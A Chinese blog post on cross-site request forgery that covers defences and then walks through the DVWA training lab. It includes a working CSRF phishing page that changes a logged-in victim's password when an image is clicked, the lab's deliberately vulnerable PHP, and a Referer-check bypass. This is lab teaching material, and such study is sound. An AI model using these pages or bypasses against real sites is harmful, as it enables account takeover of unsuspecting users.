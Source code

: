 +++
title = "CSRF跨站请求伪造漏洞"
date = 2021-06-22

[taxonomies]
categories = ["安全"]
+++

# csrf的定义
攻击者在**一定的攻击条件**下，**利用被攻击者的身份**向服务器发起请求，
<!-- more -->
服务器可以正常解析并**返回正确结果**<br />**![截屏2021-06-22 下午11.31.41.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624375922566-5bac7b83-1e73-4757-a59d-5fc863c610c1.png#align=left&display=inline&height=768&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8B%E5%8D%8811.31.41.png&originHeight=768&originWidth=1668&size=677535&status=done&style=none&width=1668)**
# csrf发生的条件

- 被攻击者在【网站A】处于登陆状态
- 必须要在【网站A】同浏览器中打开黑客的链接
- 后台身份验证不严格（例如除cookie外无其他验证）
# csrf能做什么

- 发邮件
- 发消息
- 财产操作比如转账、或者购买商品
- 修改密码
- 删除文章
# csrf防御

- 验证HTTP Referer字段

在HTTP头中有个字段是Refere，记录了HTTP请求的来源地址，在正常的页面请求中，如果用户是点击按钮等正常点击跳转都会将Referer发送给服务器，程序只需拿到值之后进行校验，如果没有或者是其他网站的话就可能是csrf攻击。

- 请求参数添加token验证

csrf之所以能够成功，是因为攻击者可以伪造用户的请求，请求中所有的用户验证信息都在cookie中。我们要找一个不可伪造的参数来校验请求是否伪造，可以在请求中加入随机的token，每次的请求都随机，这样服务端验证token即可。

- 在HTTP头中添加自定义属性

该方法也是使用token验证，和第二种方法不同的是，并不是将token放到HTTP参数中，而是放到HTTP自定义属性中，这样一次性给所有的HTTP请求都添加了token，解决了第二种方法挨个添加的不便，同时token不会记录到地址栏中，减少了token泄漏的风险。

- 验证码

验证码和token验证一样，都具有随机性，可以很好的解决CSRF的问题，但很多时候为了用户体验，网站不能给所有的操作都加上验证码，所以验证码只能作为一种辅助手段。
# DVWA中的CSRF
## LOW
![截屏2021-06-23 上午12.58.35.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624381175607-df3d7d1d-5688-4a8b-a511-2a2090368042.png#align=left&display=inline&height=1746&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-23%20%E4%B8%8A%E5%8D%8812.58.35.png&originHeight=1746&originWidth=2784&size=404646&status=done&style=none&width=2784)<br />输入用户名和密码<br />admin<br />password<br />成功进入<br />![截屏2021-06-23 上午12.59.53.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624381205289-eaf8c6ee-efd7-474a-8151-dc290b059820.png#align=left&display=inline&height=1746&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-23%20%E4%B8%8A%E5%8D%8812.59.53.png&originHeight=1746&originWidth=2784&size=534575&status=done&style=none&width=2784)<br />这里可以修改密码，我们把密码修改成lalala<br />![截屏2021-06-23 上午1.01.07.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624381299690-d9b1ba57-7894-41ee-b0a9-7c3f6e227c81.png#align=left&display=inline&height=1746&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-23%20%E4%B8%8A%E5%8D%881.01.07.png&originHeight=1746&originWidth=2784&size=556136&status=done&style=none&width=2784)<br />注意上图中的URL，我们发现修改的新密码通过URL传递到服务器<br />由此构造钓鱼网页<br />写下如下代码
```html
<html>
	<head>
		<meta charset="UTF-8">
		<title>CSRF</title>
		<script>
		function abc(){
			var im = new Image();
			im.src = "http://127.0.0.1:8081/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#";
		}
		</script>
	</head>
		<body>
			<img src="timg.png" width="100%" height="100%" onclick="abc()">
		</body>
</html>
```
找到一张诱导人点击的图片<br />![timg.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624381475919-903d004a-e340-41a6-a44d-dfbbe7e91fa0.png#align=left&display=inline&height=227&margin=%5Bobject%20Object%5D&name=timg.png&originHeight=1326&originWidth=2646&size=4462229&status=done&style=none&width=452)<br />制成网页后，在网站上发布这个网页<br />当受害人在登陆DVWA后，在并没有关掉DVWA的情况下，又用打开DVWA的浏览器打开了我们制作的网页，则受害人的DVWA的密码将会被改成我们的密码，如下<br />假使受害人点开了我们的钓鱼网页<br />![截屏2021-06-23 上午1.10.25.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624381876786-567f93e2-baa8-4bd6-9367-4f195c7a6cb2.png#align=left&display=inline&height=1746&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-23%20%E4%B8%8A%E5%8D%881.10.25.png&originHeight=1746&originWidth=2784&size=6284211&status=done&style=none&width=2784)<br />且经不住诱惑，点击了网页中的任何区域<br />到这里CSRF攻击就完成了<br />之后我们再登陆DVWA，输入密码lalala，显示登陆失败<br />![截屏2021-06-23 上午1.11.39.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624381949457-5d20916e-3388-4b40-8ac0-88c57d4faa65.png#align=left&display=inline&height=102&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-23%20%E4%B8%8A%E5%8D%881.11.39.png&originHeight=154&originWidth=290&size=5630&status=done&style=none&width=193)<br />只有输入我们自己的密码123456才能登陆成功

后台源码
```php

<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Get input 
    $pass_new  = $_GET[ 'password_new' ]; 
    $pass_conf = $_GET[ 'password_conf' ]; 

    // Do the passwords match? 
    if( $pass_new == $pass_conf ) { 
        // They do! 
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : "")); 
        $pass_new = md5( $pass_new ); 

        // Update the database 
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';"; 
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user 
        echo "<pre>Password Changed.</pre>"; 
    } 
    else { 
        // Issue with passwords matching 
        echo "<pre>Passwords did not match.</pre>"; 
    } 

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res); 
} 

?> 
```
## MEDIUM（referer检测绕过）
这里再用LOW中的方法便会失败<br />burp抓包<br />当我们正常发包时，可以发现密码被成功改变<br />![截屏2021-06-23 上午1.27.26.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624382862089-da1626d7-e058-4126-b6ac-1e8d6f76f193.png#align=left&display=inline&height=1762&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-23%20%E4%B8%8A%E5%8D%881.27.26.png&originHeight=1762&originWidth=2696&size=750354&status=done&style=none&width=2696)<br />而我们更改一下发送包中的Referer，便会发现密码更改失败<br />![截屏2021-06-23 上午1.26.18.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624382796236-c94c8b22-64ce-41fc-aa8f-2812193a4c9d.png#align=left&display=inline&height=1762&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-23%20%E4%B8%8A%E5%8D%881.26.18.png&originHeight=1762&originWidth=2696&size=751608&status=done&style=none&width=2696)<br />由此发现服务器端用了referer校验

这里查看一下后台代码
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>

```
可以看到，后台源码只判断referer中是否存在含有DVWA网站地址的字符串<br />这里只需要将我们的钓鱼网页的名称改为目标网站的地址即可绕过<br />这里burp怎么也抓不到包，借用margin视频中的截图<br />![截屏2021-06-23 上午1.47.30.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624384064585-272baa24-1ffd-4fa8-ba76-cf79071327f6.png#align=left&display=inline&height=886&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-23%20%E4%B8%8A%E5%8D%881.47.30.png&originHeight=886&originWidth=1372&size=766843&status=done&style=none&width=1372)<br />请看包中的referer值
# igaming靶场
这个cms我安装失败了……<br />不过利用方法跟上面那个相同，只不过GET请求，变成了POST请求
# ESPCMS靶场
我累了，不想安装这个了……<br />利用方法与上面igaming相同
